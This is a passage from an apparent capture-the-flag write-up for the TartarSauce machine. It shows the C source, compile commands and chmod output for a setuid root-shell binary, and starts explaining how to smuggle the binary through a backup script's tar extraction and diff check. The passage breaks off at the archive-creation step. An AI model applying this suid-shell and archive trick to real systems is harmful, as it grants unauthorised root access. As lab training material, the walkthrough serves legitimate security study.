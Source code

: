 ### Creating suid Shell

I'll start with a really simple `suid.c`:



    int main(void){
      setresuid(0, 0, 0);
      system("/bin/bash");
    }



Since TartarSauce is x86, I'll compile with the -m32 flag and ignore
those warnings:



    root@kali# gcc -m32 -o suid suid.c
    suid.c: In function ‘main’:
    suid.c:2:3: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
       setresuid(0, 0, 0);
       ^~~~~~~~~
    suid.c:3:3: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
       system("/bin/bash");
       ^~~~~~



Finally, I'll add the setuid bit:



    root@kali# chmod 6555 suid
    root@kali# ls -l suid*
    -r-sr-sr-x 1 root root 15484 Oct 21 11:44 suid
    -rwxr-x--- 1 root root    63 Oct 21 11:44 suid.c



### Add to Archive

#### Why Do I Need var/www.md Directories?

Next add it to a gzipped archive using tar. I'm going to need to mirror
the directory structure on target. Why? Let's see what happens if we
don't. We'll create a .tar.gz file that contains suid.

It will be unzipped to `/var/tmp/check/suid`.

Then, `integrity_chk()` will be run, which will
`diff /var/www.md /var/tmp/check/var/www.md`. That will exit with a
2, since that directory doesn't exit. And as we saw above, that means
the `if [[ $(integrity_chk) ]]` will evaluate false, and then the code
will move to the section that cleans up.

#### Create Archive

Create directories (`-p` will create all the directories needed), add
the file, and reset the suid bit:
